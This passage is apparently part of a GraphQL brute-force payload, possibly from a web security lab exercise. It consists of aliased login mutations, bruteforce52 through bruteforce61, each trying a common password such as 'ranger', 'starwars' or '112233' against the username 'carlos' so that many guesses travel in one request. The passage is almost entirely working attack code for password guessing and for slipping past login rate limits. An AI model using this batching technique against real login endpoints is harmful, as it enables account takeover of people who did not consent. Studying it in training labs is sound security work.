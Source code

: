 ```
    }


bruteforce52:login(input:{password: "ranger", username: "carlos"}) {
        token
        success
    }


bruteforce53:login(input:{password: "daniel", username: "carlos"}) {
        token
        success
    }


bruteforce54:login(input:{password: "starwars", username: "carlos"}) {
        token
        success
    }


bruteforce55:login(input:{password: "klaster", username: "carlos"}) {
        token
        success
    }


bruteforce56:login(input:{password: "112233", username: "carlos"}) {
        token
        success
    }


bruteforce57:login(input:{password: "george", username: "carlos"}) {
        token
        success
    }


bruteforce58:login(input:{password: "computer", username: "carlos"}) {
        token
        success
    }


bruteforce59:login(input:{password: "michelle", username: "carlos"}) {
        token
        success
    }


bruteforce60:login(input:{password: "jessica", username: "carlos"}) {
        token
        success
    }


bruteforce61:login(input:{password: "pepper", username: "carlos"}) {
        token
        success
    }


```